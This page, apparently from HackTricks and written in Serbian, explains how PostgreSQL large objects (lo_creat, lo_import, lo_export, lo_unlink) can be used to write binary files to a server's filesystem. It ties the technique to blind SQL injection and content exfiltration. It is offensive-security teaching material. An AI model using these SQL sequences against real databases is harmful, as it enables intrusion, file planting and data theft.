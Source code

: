 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Veliki Objekti

PostgreSQL nudi strukturu poznatu kao **veliki objekti**, dostupnu putem tabele `pg_largeobject`, koja je dizajnirana za skladištenje velikih tipova podataka, kao što su slike ili PDF dokumenti. Ovaj pristup je prednost u odnosu na funkciju `COPY TO` jer omogućava **izvoz podataka nazad u fajl sistem**, osiguravajući da se tačna replika originalnog fajla održava.

Za **skladištenje kompletnog fajla** unutar ove tabele, objekat mora biti kreiran u tabeli `pg_largeobject` (identifikovan LOID-om), nakon čega se podaci dele u delove, svaki veličine 2KB, u ovaj objekat. Ključno je da ovi delovi budu tačno 2KB u veličini (sa mogućim izuzecima poslednjeg dela) kako bi se osiguralo da funkcija izvoza radi ispravno.

Da biste **podelili svoje binarne podatke** u delove od 2KB, mogu se izvršiti sledeće komande:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Za kodiranje svakog fajla u Base64 ili Hex, mogu se koristiti sledeće komande:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Важно**: При аутоматизацији овог процеса, уверите се да шаљете делове од 2KB чистог текста. Хекс кодирани фајлови ће захтевати 4KB података по делу због удвостручења величине, док фајлови кодирани у Base64 следе формулу `ceil(n / 3) * 4`.

Садржај великих објеката може се прегледати у сврху дебаговања користећи:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Koristeći `lo_creat` i Base64

Da bi se sačuvali binarni podaci, prvo se kreira LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
U situacijama koje zahtevaju preciznu kontrolu, kao što je iskorišćavanje Blind SQL Injection, `lo_create` se preferira za određivanje fiksnog LOID-a.

Podaci se mogu umetnuti na sledeći način:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Da biste eksportovali i potencijalno obrisali veliki objekat nakon upotrebe:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Koristeći `lo_import` i Hex

Funkcija `lo_import` može se koristiti za kreiranje i određivanje LOID-a za veliki objekat:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Nakon kreiranja objekta, podaci se unose po stranici, osiguravajući da svaki deo ne prelazi 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Da bi se proces završio, podaci se izvoze i veliki objekat se briše:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

Napomena je da **veliki objekti mogu imati ACL-ove** (Liste Kontrole Pristupa), što može ograničiti pristup čak i objektima koje je kreirao vaš korisnik. Međutim, stariji objekti sa permisivnim ACL-ovima mogu i dalje biti dostupni za ekfiltraciju sadržaja.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
